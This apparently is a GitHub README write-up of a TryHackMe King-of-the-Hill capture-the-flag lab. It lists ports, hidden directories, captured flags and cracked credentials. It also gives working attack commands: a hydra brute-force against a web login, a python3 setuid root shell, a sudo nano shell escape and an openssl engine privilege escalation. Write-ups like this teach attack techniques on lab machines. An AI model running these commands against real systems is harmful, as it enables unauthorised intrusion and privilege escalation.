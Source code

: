 # KOTH HACKERS<br />

-------------
## IP: `10.10.68.205`<br />

----------------------
### Open Ports -<br />

```
21
22
80
9999
```

----------------------
#### hidden directories -<br />

```
/news
/contact
/img
/staff
/backdoor
```

----------------------
> first flag -<br />

```
thm{b63670f7192689782a45d8044c63197f}
```
`in the source code of default page on port 80`<br />

> second flag -<br />

```
thm{678d0231fb4e2150afc1c4e336fcf44d}
```
`in the hidden files on anonymous login with ftp ls  -la`<br />

-----------------------
##### Credentials -<br />


username: rcampbell<br />
password: cinderella<br />

username: gcrawford<br />
password: evelina<br />

`via hydra`<br />

-----------------------
> third flag -<br />

```
thm{12361ad240fec43005844016092f1e05}
```
`in the hidden files in ftp login with rcampbell ls -la` <br />

-----------------------
##### Login via ssh with rcampbell and search for `capabilities`<br />

```
getcap -r / 2>/dev/null
```
```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

##### Crack the passphrase for `id_rsa` of gcrawford<br />

```
id_rsa:stephani
```
##### privilege escalation of `gcrawford` user<br/>

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
##### Crack the password for [backdoor](http://10.10.68.205/backdoor)<br />

username: plague<br />
password: tonyhawk<br />

```
hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.68.205 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect"
```

##### You can get a rev shell with user `production` logged in and can achieve privilage escalation using -<br />

```
sudo openssl req -engine ./shell.so
```

-----------------------
> fourth flag - <br />

```
thm{b94f8d2e715973f8bc75fe099c8492c4}
```
`in the root directory`<br />
> fifth flag -<br />

```
thm{d8.............................}
```
`in the home directory of gcrawford, within business.txt`<br />

> sixth flag - <br />

```
thm{87.............................}
```
`in the home directory of production`<br />

> seventh flag - <br />

```
thm{3c.............................}
```
`in the home directory of tryhackme`<br />

> eighth flag -

```
thm{21.............................}
```
`in /etc/vsftpd.conf`<br />

> ninth flag -

```
thm{06.............................}
```
`in /etc/ssh/sshd_config`
